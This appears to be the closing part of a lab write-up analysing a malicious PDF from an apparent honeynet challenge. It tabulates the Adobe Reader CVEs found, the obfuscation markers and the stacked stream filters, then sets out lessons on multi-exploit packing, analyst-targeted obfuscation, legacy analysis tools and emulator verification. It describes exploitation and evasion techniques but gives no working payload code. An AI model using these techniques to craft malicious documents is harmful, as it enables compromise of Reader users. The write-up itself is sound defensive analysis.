| Vulnerabilities | Confirmed | `CVE-2009-1492` (Collab.getAnnots(), objs 4/5/7/9) |
| Vulnerabilities | Confirmed | `CVE-2010-0188` (LibTIFF/XFA) |
| Vulnerabilities | Candidate | `CVE-2008-2992` (util.printf) |
| Vulnerabilities | Candidate | `CVE-2007-5659` (Collab.collectEmailInfo()) |
| Vulnerabilities | Candidate | `CVE-2009-0927` (getIcon()) |
| Vulnerabilities | Candidate | `CVE-2009-4324` (printd) |
| Obfuscation | Percent-encoding marker (obj 7) | `89af50d3` |
| Obfuscation | Percent-encoding marker (obj 9) | `X_17844743X_17098774` |
| Obfuscation | Filter chain (all encoded streams) | `FlateDecode` → `ASCII85Decode` → `LZWDecode` → `RunLengthDecode` |

# Lab Insights

- **Redundant multi-exploit packing as a reliability strategy**: this PDF didn't rely on a single vulnerability — it chained at least two confirmed CVEs (2009-1492, 2010-0188) plus three additional candidate exploit paths tied to distinct Adobe JS API abuse patterns, a common exploit-kit-era technique to maximize the odds of code execution across whatever unpatched Reader/Acrobat version the victim happened to be running.
- **Obfuscation targeted the analyst, not just AV signatures**: the JS payload swapped the literal `%` character for unique junk marker strings before percent-encoding shellcode, and the PDF stacked four chained filters (`FlateDecode`/`ASCII85Decode`/`LZWDecode`/`RunLengthDecode`) on every stream — neither technique is functionally necessary for a legitimate PDF, both exist purely to break naive string/signature scanning and slow down manual triage.
- **Legacy security tooling is a real operational hazard, not just an inconvenience**: pdf-parser and the Python 3 peepdf-3 fork both silently corrupted binary stream data under Python 3 (UTF-8 double-encoding of raw bytes), and speakeasy-emulator hard-pinned an ancient unicorn==1.0.2 incompatible with modern Python's removed distutils. The working path required the original Python 2 peepdf, and ultimately the real Windows scdbg.exe under Wine outperformed every Linux-native shellcode emulator tried. Assuming a documented tool "just works" on a current OS is a bad habit in this field — tooling built for a 2010-era exploit sample often is itself effectively legacy software.
- **Emulator output must be independently verified, not trusted at face value**: confirming via live tcpdump that no real connection to `blog.honeynet.org.my` occurred during the scdbg run was necessary to establish scdbg's Wine execution stayed safely emulated rather than assuming it based on documentation alone.
- **Capture completeness limits conclusions**: only one of the two identified payload URLs (`the_real_malware.exe`) appears anywhere in the actual pcap, and even that request returned a 404 — meaning the live capture reflects an attempted, not completed, infection. The second payload (`malware1.exe`) was identified purely through static shellcode emulation and was never observed in network traffic, a distinction worth preserving rather than conflating "what the shellcode was designed to do" with "what was proven to happen on the wire."
